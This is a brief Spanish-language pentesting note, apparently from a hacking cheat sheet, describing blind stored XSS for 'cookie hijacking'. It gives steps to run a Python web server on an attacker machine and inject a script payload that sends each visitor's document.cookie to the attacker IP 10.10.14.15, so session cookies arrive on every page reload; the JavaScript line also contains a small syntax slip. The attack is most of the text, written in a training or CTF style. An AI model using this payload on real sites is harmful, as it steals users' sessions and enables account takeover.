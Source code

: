Vulnerabilidad XSS donde no se ve la respuesta del servidor al interpretar el código Javascript.

Ejemplo de técnica "Cookie Hijacking":
1. Poner servidor web en máquina atacante --> `python -m SimpleHTTPServer 80`
2. Introducir código Javascript malicioso en la aplicación web vulnerable. En este caso un XSS stored --> `<script>document.write('<img src="http://10.10.14.15/s4vitar.jpg?cookie='+document.cookie'">')</script>`
3. Recibiremos en el servidor web local la cookie de sesión del usuario que se conecte, cada vez que recarge la página.